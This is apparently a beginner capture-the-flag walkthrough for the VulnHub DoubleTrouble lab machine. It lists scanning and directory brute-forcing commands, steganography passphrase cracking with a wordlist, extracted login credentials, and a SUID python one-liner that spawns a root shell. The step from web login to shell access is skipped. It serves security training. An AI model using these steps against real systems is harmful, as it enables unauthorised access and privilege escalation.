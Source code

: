 # 🕵️‍♂️ CTF-DoubleTrouble-Machine Walkthrough  

This walkthrough provides step-by-step guidance to complete the **DoubleTrouble CTF machine (VulnHub)**.  
It is beginner-friendly and demonstrates **reconnaissance, enumeration, exploitation using steganography, credential extraction, privilege escalation, and root flag capture**.  

---

## 📑 Table of Contents
1. [Introduction](#-introduction)  
2. [Prerequisites](#-prerequisites)  
3. [Reconnaissance](#-reconnaissance)  
   - [3.1 Getting Attacker and Target IP Addresses](#31-getting-attacker-and-target-ip-addresses)  
   - [3.2 Port Scanning with Nmap](#32-port-scanning-with-nmap)  
4. [Enumeration & Vulnerability Discovery](#-enumeration--vulnerability-discovery)  
5. [Exploitation: Hidden Files & Steganography](#-exploitation-hidden-files--steganography)  
6. [Credential Extraction and Login](#-credential-extraction-and-login)  
7. [Privilege Escalation & Root Flag](#-privilege-escalation--root-flag)  
8. [Conclusion & Next Steps](#-conclusion--next-steps)  

---

## 📘 Introduction  
This guide demonstrates how to enumerate and exploit the **DoubleTrouble machine**.  
We will cover:  
- Reconnaissance  
- Vulnerability discovery  
- Exploiting hidden files using **steganography**  
- Credential extraction  
- Privilege escalation to root  

---

## 🛠️ Prerequisites  
- **DoubleTrouble VM** imported and running in **VirtualBox/VMware**  
- **Kali Linux** machine on the same **NAT network**  
- Completed setup steps in [Environment_Setup.md](./Environment_Setup.md)  

---

## 🔍 Reconnaissance  

### 3.1 Getting Attacker and Target IP Addresses  

Check your attacker machine’s IP:  
```bash
ip a
➡️ Look for the IP on the eth0 interface (e.g., 10.0.2.5).
Discover the target VM’s IP using Nmap ping sweep:

nmap -sn 10.0.2.5/24
Alternatively, use Netdiscover for ARP scans:
sudo netdiscover -i eth0 -r 10.0.2.5/24
-i : Select network interface
-r : Range/subnet to scan
✅ Result: Target machine’s IP found → 10.0.2.4.
3.2 Port Scanning with Nmap
Run a full port scan with service/version detection:
nmap -p- -n -vvv -sCV 10.0.2.4
-p- → Scan all 65535 ports
-n → No DNS resolution
-vvv → Very verbose output
-sCV → Run default scripts & version detection
📸 Screenshot: Add results screenshot here → screenshots/nmap_results.png
Sample Output:

22/tcp   open  ssh
80/tcp   open  http
🧩 Enumeration & Vulnerability Discovery
Visit the target in your browser:
http://10.0.2.4/
You’ll see a qdPM | Login page.
➡️ Try wrong credentials — you get error messages hinting at weak handling.

Brute-force hidden directories using dirb:

dirb http://10.0.2.4/
Discovered Directories:
/backups/
/batch/
/core/
/css/
/images/
/install/
/js/
/secret/    <-- important!
/uploads/
🎭 Exploitation: Hidden Files & Steganography
Navigate to /secret/ and download the suspicious file:
wget http://10.0.2.4/secret/doubletrouble.jpg
Try extracting hidden data:
steghide --extract -sf doubletrouble.jpg
If prompted for a passphrase, crack it using stegcracker:
stegcracker doubletrouble.jpg /usr/share/wordlists/rockyou.txt
Output:
Password found: 92camaro
Now extract the hidden file:
steghide --extract -sf doubletrouble.jpg
# Enter password: 92camaro
View extracted credentials:
cat creds.txt
Expected Output:
otisrush@localhost.com
otis666
🔑 Credential Extraction and Login
Return to login page:
http://10.0.2.4/
Use the credentials:
Username: otisrush@localhost.com
Password: otis666
📸 Screenshot: Add login/foothold screenshot → screenshots/foothold.png
🛡️ Privilege Escalation & Root Flag
Once logged in as user, enumerate the system for privilege escalation.
Check user privileges:

id
sudo -l
Search for SUID binaries:
find / -perm -4000 2>/dev/null
You may find a vulnerable binary (example: /usr/bin/python with SUID bit set).
Exploit it for root shell:
python -c 'import os; os.setuid(0); os.system("/bin/bash")'
Confirm root access:
whoami
➡️ Output: root
Capture the root flag:

cat /root/root.txt
📸 Screenshot: Add privilege escalation screenshot → screenshots/privilege_escalation.png
🏁 Conclusion & Next Steps
🎉 You successfully gained root access on the DoubleTrouble machine using:
Reconnaissance with Nmap
Directory brute-forcing
Steganography to extract hidden credentials
Web login → user foothold
Privilege escalation to root
Next Steps:
Practice automating parts of this process.
Try alternative privilege escalation methods.
Explore post-exploitation activities (persistence, pivoting, etc.).
Document everything in Project_Report.pdf.
💡 Tips
If any command fails, check network & IP addresses.
Explore man pages for tool usage:
man nmap
man dirb
man steghide
